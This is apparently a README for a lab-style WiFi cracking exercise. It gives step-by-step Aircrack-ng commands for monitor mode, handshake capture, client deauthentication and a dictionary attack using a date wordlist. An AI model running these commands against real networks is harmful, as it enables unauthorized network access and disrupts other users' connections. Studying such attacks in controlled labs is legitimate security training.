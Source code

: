 # WiFi Cracking 

## Prerequisites
- WiFi card supporting monitor mode
- Aircrack-ng suite
- Wordlist file generated by `date_wordlist_generator.ipynb` which includes all dates from 01.01.1930 to 31.12.2024 in the formats DDMMYYYY or MMDDYYYY. This file should be named `dates_1930_2024_wordlist.txt`.

## Steps

### 1. Environment Preparation
Stop interfering network processes:
```bash
sudo airmon-ng check kill
```

### 2. Enable Monitor Mode
Identify your wireless interface:
```bash
iwconfig
```
Start monitor mode:
```bash
sudo airmon-ng start <interface>
```
Check monitor mode:
```bash
iwconfig
```

### 3. Target Network Identification
List networks:
```bash
sudo airodump-ng <monitor_interface>
```
Note BSSID and channel of the target.

### 4. Capture Handshake
Capture handshake:
```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write hackMewifi <monitor_interface>
```

### 5. Deauthenticate Client (Optional)
Force handshake capture:
```bash
sudo aireplay-ng --deauth 5 -a <BSSID> -c <client_MAC> <monitor_interface>
```

### 6. Crack WiFi Password
Crack password:
```bash
aircrack-ng hackMewifi-01.cap -w <wordlist>
```

### 7. Cleanup
Restart network services:
```bash
sudo systemctl restart NetworkManager
```
Stop monitor mode:
```bash
sudo airmon-ng stop <monitor_interface>
```

## Conclusion
Follow these steps to crack a WiFi password using Aircrack-ng. This guide is for educational purposes in a controlled environment. The password is expected to be a date in the format of either DDMMYYYY or MMDDYYYY.
